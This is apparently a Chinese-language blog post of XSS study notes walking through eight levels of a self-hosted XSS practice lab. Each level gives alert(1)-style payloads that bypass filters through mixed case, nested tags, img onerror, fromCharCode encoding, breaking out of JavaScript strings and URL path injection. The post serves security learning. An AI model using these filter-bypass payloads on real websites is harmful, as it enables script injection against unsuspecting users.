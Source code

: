 ```yaml
---
title: XSS学习笔记
tags: [XSS]
categories: [网络安全]
date: 2016-03-23 21:47:05
---
```


跨站脚本 (Cross-Site Scripting, `XSS`) 是一种经常出现在Web应用程序中的计算机安全漏洞。
形成原因和SQL注入一样, 是因为Web容器将用户提交的**数据**当代码解析执行了。

下面, 我们将用自己搭建的本地环境测试, 介绍一下XSS通常都有哪些**姿势**

<!-- more -->

**[XSS环境下载地址](https://github.com/kba977/xss_labs)**, 大家可以对照源码来学习XSS的绕过姿势。

## 1. 第一关 
非常简单, 直接输入payload即可。

    <script>alert(1)</script> 

    http://10.211.55.7/xss/example1.php?name=<script>alert(1)</script>
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/XSS%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/XSS-1.png?)

## 2. 第二关
过滤掉了**小写**的**script**, 可以使用大小写混合的方法绕过。

    <sCrIpt>alert(1)</sCriPt>

    http://10.211.55.7/xss/example1.php?name=<sCrIpt>alert(1)</sCriPt>
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/XSS%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/XSS-2.png?)

## 3. 第三关
过滤了**不区分大小写**的`<script>`与`</script>`，可以使用**嵌套**的script标签绕过。

    <sc<script>ript>alert(1)</sc</script>ript>

    http://10.211.55.7/xss/example1.php?name=<sc<script>ript>alert(1)</sc</script>ript>
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/XSS%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/XSS-3.png?)

## 4. 第四关
判断包含`script`字符串即报错, 可以使用其他标签如`img`绕过。

    <img src=x onerror="alert(1)">

    http://10.211.55.7/xss/example1.php?name=<img src=x onerror="alert(1)">
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/XSS%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/XSS-4.png?)

## 5. 第五关
判断包含alert字符串即报错, 可以使用编码方式绕过。

    <script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
    或
    <img src=x onerror="eval(String.fromCharCode(97,108,101,114,116,40,49,41))">

    http://10.211.55.7/xss/example1.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/XSS%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/XSS-5.png?)

## 6. 第六关
直接在js环境中输出php变量, 可以通过构造js脚本绕过。

    ";b=alert(1); eval(b);//
    或
    ";alert(1);//
    或
    </script><script>alert(1)// (通过直接闭合前前后`script`来达到目的, 该方法在第七关不可用, 因为`<`和`>`被实体编码了/(ㄒoㄒ)/~~)

    http://10.211.55.7/xss/example1.php?name=";b=alert(1);eval(b);//
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/XSS%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/XSS-6.png?)

## 7. 第七关
在js环境中输出通过html编码的php变量, `htmlentities`没有过滤单引号, 使用单引号绕过。

    ';b=alert(1);eval(b);//
    或
    ';alert(1);//

    http://10.211.55.7/xss/example1.php?name=';b=alert(1);eval(b);//
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/XSS%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/XSS-7.png?)

## 8. 第八关
第八个xss的post地址使用了当前url, 达到构造当前url地址达到xss目的

    /"method="post"><script>alert(1)</script>

    http://10.211.55.7/xss/example1.php/"method="post"><script>alert(1)</script>
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/XSS%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/XSS-8.png?)

另外, 介绍另外几个**payload**

- `"/><svg/onload=alert(1)>` 可绕过前4关
- `"></script><c/onclick=confirm(1)>ccc` 可绕过第5和第6关

最后, 推荐 google 的 xss-game, 共6关, 有兴趣的同学可以试试哟 :P

[Google的xss-game(需翻墙)](https://xss-game.appspot.com/)
